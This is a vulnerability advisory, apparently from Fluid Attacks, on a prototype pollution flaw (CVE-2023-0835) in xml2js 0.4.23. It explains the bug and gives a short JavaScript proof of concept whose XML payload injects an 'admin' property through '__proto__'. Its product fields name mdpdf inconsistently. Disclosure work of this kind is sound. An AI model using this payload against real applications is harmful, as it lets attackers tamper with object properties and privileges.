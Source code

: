 ```yaml
---
slug: advisories/myers/
title: xml2js 0.4.23          -         Prototype Pollution
authors: Carlos Bello
writer: cbello
codename: myers
product: xml2js 0.4.23  -  Prototype Pollution
date: 2023-02-20 12:00 COT
cveid: CVE-2023-0835
severity: 7.3
description: xml2js 0.4.23          -         Prototype Pollution
keywords: Fluid Attacks, Security, Vulnerabilities, NPM, Prototype Pollution
banner: advisories-bg
advise: yes
template: maskedAdvisory
encrypted: yes
---
```


## Summary

|                       |                                                                    |
| --------------------- | -------------------------------------------------------------------|
| **Name**              | xml2js 0.4.23 - Prototype Pollution                                |
| **Code name**         | [Myers](https://en.wikipedia.org/wiki/Bryant_Myers)                |
| **Product**           | mdpdf                                                              |
| **Affected versions** | Version 0.4.23                                                     |
| **State**             | Public                                                             |
| **Release date**      | 2023-02-20                                                         |

## Vulnerability

|                       |                                                                                                                             |
| --------------------- | ----------------------------------------------------------------------------------------------------------------------------|
| **Kind**              | Prototype Pollution                                                                                                         |
| **Rule**              | [390. Prototype Pollution](https://docs.fluidattacks.com/criteria/vulnerabilities/390)                                      |
| **Remote**            | Yes                                                                                                                         |
| **CVSSv3 Vector**     | CVSS:3.1/AV:N/AC:L/PR:N/UI:N/S:U/C:L/I:L/A:L                                                                                |
| **CVSSv3 Base Score** | 7.3                                                                                                                         |
| **Exploit available** | Yes                                                                                                                         |
| **CVE ID(s)**         | [CVE-2023-0835](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-0835)                                               |

## Description

xml2js version 0.4.23 allows an external attacker to edit or add new
properties to an object. This is possible because the application does
not properly validate incoming JSON keys, thus allowing the `__proto__`
property to be edited.

## Vulnerability

Prototype pollution is a vulnerability that affects JS. It occurs when a
third party manages to modify the `__proto__` of an object. JavaScript
first checks if such a method/attribute exists in the object. If so, then
it calls it. If not, it looks in the object's prototype. If the method/attribute
is also not in the object's prototype, then the property is said to be undefined.

Therefore, if an attacker succeeds in injecting the `__proto__` property into an
object, he will succeed in injecting or editing its properties.

## Exploitation

### Exploit.md

```js
var parseString = require('xml2js').parseString;

let result = {}

console.log(result.admin);

var xml = "<__proto__><admin>1</admin></__proto__>"
parseString(xml, function (err, result) {
    console.log(result.admin);
});

console.log(result)
```

## Evidence of exploitation

![Explotation-xml2js](https://user-images.githubusercontent.com/51862990/218889830-a9ad98f3-7757-4bbc-9fa8-e711280d34f8.png)

## Our security policy

We have reserved the ID CVE-2023-0835 to refer to this issue from now on.

* https://fluidattacks.com/advisories/policy/

## System Information

* Version: xml2js 0.4.23

* Operating System: GNU/Linux

## Mitigation

There is currently no patch available for this vulnerability.

## Credits

The vulnerability was discovered by [Carlos
Bello](https://www.linkedin.com/in/carlos-andres-bello) from Fluid Attacks'
Offensive Team.

## References

**Vendor page** <https://www.npmjs.com/package/mdpdf/>

## Timeline

<time-lapse
  discovered="2023-02-14"
  contacted="2023-02-14"
  replied="2023-02-14"
  confirmed=""
  patched=""
  disclosure="">
</time-lapse>
